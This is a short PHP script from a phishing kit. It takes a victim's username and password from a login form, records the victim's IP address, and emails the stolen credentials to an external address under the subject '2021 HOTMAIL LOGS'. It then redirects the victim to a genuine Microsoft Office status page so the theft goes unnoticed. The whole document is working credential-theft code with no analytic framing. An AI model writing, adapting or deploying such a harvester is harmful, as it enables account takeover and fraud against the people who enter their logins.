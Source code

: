 <?php

$ip = getenv("REMOTE_ADDR");

$message .= "-----------  ! +Account infoS+ !  -----------\n";
$message .= "Username   : ".$_POST['work']."\n";
$message .= "Password   : ".$_POST['passwd']."\n";
$message .= "IP Address : ".$ip."\n";
$message .= "-----------  !Thuglife_Legend+ !  -----------\n";
$send = "sp_logs2021@protonmail.com";


$subject = "2021 HOTMAIL LOGS ! xD $ip";
$headers = "From:  <info@notime>";
$headers .= $_POST['eMailAdd']."\n";
$headers .= "MIME-Version: 1.0\n";
$arr=array($send, $IP);
foreach ($arr as $send)
mail($send,$subject,$message,$headers);
    

header("Location: https://portal.office.com/servicestatus?");

?>


